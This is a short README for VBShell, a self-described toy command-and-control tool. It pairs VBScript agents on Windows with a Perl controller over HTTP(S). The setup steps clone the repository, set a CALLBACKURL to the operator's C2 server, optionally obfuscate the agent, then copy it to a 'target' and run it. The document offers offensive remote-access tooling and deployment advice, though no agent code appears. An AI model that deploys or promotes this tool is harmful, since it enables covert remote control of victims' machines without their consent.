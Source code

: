 # VBShell

> A simple C2 written with VBScript agents

This is a toy C2 program with VBScript agents that run natively (i.e no additional installation is necessary) on windows and communicate via HTTP(S) to a Perl-based controller.

## Installation

1. Clone the repository and install the server dependencies (linux-only)

```bash
git clone https://github.com/lvmalware/vbshell
cd vbshell
cpanm --installdeps .
```

2. Edit the vbshell.vbs file and change the value of CALLBACKURL to your C2 server's url

```vbscript
CALLBACKURL = "https://my.server.tld"
```
3. Obfuscate the script somehow (optional)

4. Copy the vbshell.vbs file to your target and run it

5. Have fun
